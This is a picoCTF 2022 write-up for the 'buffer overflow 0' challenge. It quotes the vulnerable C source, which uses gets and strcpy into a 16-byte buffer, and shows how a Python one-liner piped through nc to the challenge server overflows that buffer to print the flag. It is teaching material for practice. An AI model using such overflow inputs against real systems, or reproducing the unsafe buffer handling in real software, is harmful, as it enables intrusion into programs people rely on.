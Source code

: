 # buffer overflow 0

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Exploitation, gets
Author: ALEX FULTON / PALASH OSWAL

Description:

Smash the stack
Let's start off simple, can you overflow the correct buffer? 

The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 61481
 
Hints:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. 
   Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?
```
Challenge link: [https://play.picoctf.org/practice/challenge/257](https://play.picoctf.org/practice/challenge/257)

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

This is a classic buffer overflow. The program sets up a signal handler catching `SIGSEGV` error conditions.
SigSegV means a signal for memory access violation, essentially trying to read or write from/to a memory area 
that your process does not have access to. This is also known as a segmentation fault.

When this happens the code in the `sigsegv_handler` is executed and tries to fix the problem or at least graciously quit the program.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
Conveniently, in this case the code prints the flag for us.

There is also a `vuln` function with a rather small buffer
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

If we [overflow this buffer](https://en.wikipedia.org/wiki/Buffer_overflow) with more data than it can handle, we might write to the return address of the function stored on the stack. If that memory address is illegal when the program tries to return, we will cause a segmentation fault.

### Try exploitation locally 

Let's try to overflow the buffer locally first.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ chmod +x vuln

┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```

Ah, that's right. We need a dummy flag for testing.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ echo "picoCTF{Fake_Flag}" > flag.txt
                                          
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | ./vuln  
Input: picoCTF{Fake_Flag}
```

Success! We sent 20 bytes (slightly more than the buffer size of 16) and we got the flag.

### Connect to the server and get the flag

Finally, let's connect to the server and try to get the flag. If we don't succeed, we slightly increase the output until we do.
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | nc saturn.picoctf.net 61481

Input:                             
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 61481
Input:

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*30)" | nc saturn.picoctf.net 61481
Input: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
